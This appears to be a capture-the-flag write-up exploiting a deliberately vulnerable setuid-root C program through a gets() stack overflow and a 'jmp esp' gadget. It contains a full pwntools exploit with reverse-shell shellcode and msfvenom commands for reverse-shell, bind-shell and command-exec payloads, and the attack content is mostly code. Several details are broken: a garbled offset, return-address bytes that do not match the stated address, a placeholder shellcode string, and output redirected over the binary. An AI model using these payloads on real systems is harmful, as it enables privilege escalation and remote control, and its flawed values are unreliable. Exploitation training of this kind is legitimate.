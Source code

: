 ```c
#include <stdio.h>

int secret_function() {
    asm("jmp %esp");
}

void receive_feedback()
{
    char buffer[64];

    puts("Please leave your comments for the server admin but DON'T try to steal our flag.txt:\n");
    gets(buffer);
}

int main()
{
    setuid(0);
    setgid(0);

    receive_feedback();

    return 0;
}
```

```txt
flag{w417_h0w_d1d_y0u_d0_7h47}
```

```bash
gcc prog.c -o prog -fno-stack-protector -z execstack -no-pie -m32
```

Ok so we have a `flag.txt` file which is only readable by the root user. We need to somehow trick the server, which is running as root, to reading the `flag.txt` file and give us the read content. There's no stack protection enabled according to `checksec`. `NX` was not enabled, therefore we can potentially inject our shellcode into this executable.

The server will use the setuid and setgid to make sure the file runs as root. The `receive_feedback` function just reads a 64-character string into the `buffer`. There's a `secret_function`, which performs a jump instruction to the address stored by register `esp`, which is the stack pointer. The `secret_function` doesn't really do anything interesting, it's just there for this challenge to make it so that we can easily create our ROP gadgets.

Our goal is to overwrite the return value with the `esp` value to jump to the stack, which will contain our shellcode, and the program will start executing our shellcode.

For this, the 77th-30th characters will land in the return address of `receive_feedback`, so there needs to be 76 padding bytes. After that, we want to write the `jmp esp` instruction onto the return address so that the program will jump to the top of the stack, which will contain our shellcode.

In this case, the address for `jmp esp` is `0x0804919f`. Now we need to generate our shellcode. We can use a tool like `shellcraft` or `msfvenom` to generate the shell. We'll generate a shellcode that will give us a 32-bit shell to use. This shell will be run with the permissions of the executable, which is root.

```bash
shellcraft i386.linux.sh
```

> We could also just generate shellcode that will cat the `flag.txt`.

Our payload will also contain some "slack" instructions (a bunch of `nop` instructions) before the shellcode.

```python
python -c 'import sys; sys.stdout.buffer.write(b"A" * 76 + b"\x9f\x91\x40\x80" + b"\x90\x90\x90\x90\x90\x90\x90\x90" + b"\xsh\xell\xco\xde"' > ./prog
```

> Doing this manually takes a lot of time. Use `pwntools` to automate the creation of the shellcode and exploitation.

Automation script with `shellcraft` and `pwntools`:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './server'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# Exploit start
io = start()

# Offset to EIP
padding = 76

# Assemble the byte sequence for 'jmp esp' so we can search for it
jmp_esp = asm('jmp esp')
jmp_esp = next(elf.search(jmp_esp))

# Reverse shell
shellcode = b"\xb8\xa4\xe4\x0d\x3b\xda\xd2\xd9\x74\x24\xf4\x5b\x31"
shellcode += b"\xc9\xb1\x12\x31\x43\x14\x83\xc3\x04\x03\x43\x10\x46"
shellcode += b"\x11\xe6\x0d\x3e\xdf\xf9\x71\x3e\xbb\xc8\xb8\xf3\xbb"
shellcode += b"\xa2\xf8\xb3\xbf\xb4\xfe\xc3\x36\x53\x77\x3a\xf2\x9c"
shellcode += b"\x98\xbc\x03\x50\x18\x35\xc1\xd2\x1d\x45\xc6\x22\xa5"
shellcode += b"\x47\xc6\x22\xd9\x8a\x46\x9a\xd8\x14\x47\xdb\x61\x14"
shellcode += b"\x47\xdb\x95\xd9\xc7\x33\x50\x1e\x38\x3c\x3d\x8c\xa6"
shellcode += b"\xa4\xec\x38\x51\x5f\xf1"

# Build payload
payload = flat(
    asm('nop') * padding,
    jmp_esp,
    asm('nop') * 8,
    shellcode
)

# Write payload to file
write("payload", payload)

# Exploit
io.sendlineafter(b':', payload)

# Get shell
io.interactive()
```

Side note: We can also specify the shellcode in the script like this (if we do decide to generate the shellcode with something that's not supported by `pwntools` like `msfvenom`)

```bash
# example msfvenom commands
msfvenom -p linux/x86/exec CMD="curl https://example.com" -b '\x00' -f python
msfvenom -p linux/x86/shell_bind_tcp PORT=1337 -b '\x00' -f python
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f python
msfvenom -p linux/x86/read_file PATH=flag.txt FD=2 -b '\x00' -f python
```

```python
# example msfvenom shellcode in the python script
shellcode = b"\xb8\xa4\xe4\x0d\x3b\xda\xd2\xd9\x74\x24\xf4\x5b\x31"
shellcode += b"\xc9\xb1\x12\x31\x43\x14\x83\xc3\x04\x03\x43\x10\x46"
shellcode += b"\x11\xe6\x0d\x3e\xdf\xf9\x71\x3e\xbb\xc8\xb8\xf3\xbb"
shellcode += b"\xa2\xf8\xb3\xbf\xb4\xfe\xc3\x36\x53\x77\x3a\xf2\x9c"
shellcode += b"\x98\xbc\x03\x50\x18\x35\xc1\xd2\x1d\x45\xc6\x22\xa5"
shellcode += b"\x47\xc6\x22\xd9\x8a\x46\x9a\xd8\x14\x47\xdb\x61\x14"
shellcode += b"\x47\xdb\x95\xd9\xc7\x33\x50\x1e\x38\x3c\x3d\x8c\xa6"
shellcode += b"\xa4\xec\x38\x51\x5f\xf1"
```